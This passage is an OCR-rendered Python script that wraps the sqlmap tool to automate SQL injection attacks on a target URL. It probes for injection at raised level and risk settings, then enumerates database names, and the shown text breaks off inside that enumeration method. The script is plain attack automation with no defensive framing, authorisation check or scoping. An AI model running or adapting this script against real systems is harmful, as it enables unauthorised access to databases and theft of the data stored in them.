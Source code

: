 ::: code-block
    #!/usr/bin/env python3
    # SQLMap Python Automation Script

    import subprocess
    import json
    import sys
    import time
    from datetime import datetime

    class SQLMapAutomator:
        def __init__(self, target_url):
            self.target = target_url
            self.sqlmap_path = "/opt/sqlmap/sqlmap.py"
            self.results = {}
            
        def run_sqlmap(self, args):
            """Execute SQLMap with given arguments"""
            cmd = ["python3", self.sqlmap_path, "-u", self.target] + args
            try:
                result = subprocess.run(cmd, capture_output=True, text=True, timeout=300)
                return result.stdout, result.stderr, result.returncode
            except subprocess.TimeoutExpired:
                return "", "Timeout expired", 1
        
        def test_vulnerability(self):
            """Test for SQL injection vulnerability"""
            print(f"[*] Testing {self.target} for SQL injection...")
            stdout, stderr, code = self.run_sqlmap(["--batch", "--level=3", "--risk=2"])
            
            if "is vulnerable" in stdout:
                print("[+] SQL injection vulnerability detected!")
                self.results["vulnerable"] = True
                return True
            else:
                print("[-] No SQL injection vulnerability found.")
                self.results["vulnerable"] = False
                return False
        
        def enumerate_databases(self):
            """Enumerate available databases"""
            print("[*] Enumerating databases...")
            stdout, stderr, code = self.run_sqlmap(["--dbs", "--batch"])
            
            # Parse database names from output
            databases = []
            lines = stdout.split('\n')
            for line in lines:
                if line.startswith("[*] "):
                    db_name = line.replace("[*] ", "").strip()
                    if db_name not in ["information_schema", "mysql", "performance_schema"]:
                        databases.append(db_name)
            